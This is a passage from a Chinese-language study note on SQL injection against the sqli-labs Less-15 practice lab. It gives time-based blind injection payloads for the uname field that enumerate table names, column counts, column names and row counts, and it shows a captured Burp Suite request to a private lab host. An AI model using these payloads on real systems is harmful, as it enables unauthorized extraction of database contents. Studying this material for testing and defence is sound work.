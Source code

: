 ```
uname=admin' and if(ascii(substr((select table_name from information_schema.tables where table_schema='security' limit 0,1),1,1))=101,sleep(5),0)--+
```

##### 字段数

```
uname=admin' and if((select count(column_name) from information_schema.columns where table_name='users' and table_schema=database())=3,sleep(5),0)--+
```

##### 字段名

```
uname=admin' and if(ascii(substr((select column_name from information_schema.columns where table_name='users' and table_schema=database() limit 0,1),1,1))=105,sleep(5),0)--+
```

##### 字段值

```
uname=admin' and if((select count(username) from users)=13,sleep(5),0)--+
```



#### burpsuite抓包

```
POST /Less-15/ HTTP/1.1
Host: 192.168.70.14:8088
Content-Length: 38
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
Origin: http://192.168.70.14:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/127.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://192.168.70.14:8088/Less-15/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: xp=MTcyMjU4MTk1NnxEWDhFQVFMX2dBQUJFQUVRQUFBcF80QUFBUVp6ZEhKcGJtY01Dd0FKVTJGbVpVVnVkSEo1Qm5OMGNtbHVad3dJQUFZell6Tm1aVGM9fPMcNECUoQNlFjbgBfP0lmLnN-MAnqp1V_86YwwuNSpq
Connection: close

passwd=admin&submit=Submit&uname=admin
```

![image-20240805141608089](../../../../repo/assets/19.SQL注入/image-20240805141608089.png)

### **5.基于时间的盲注的流量分析**
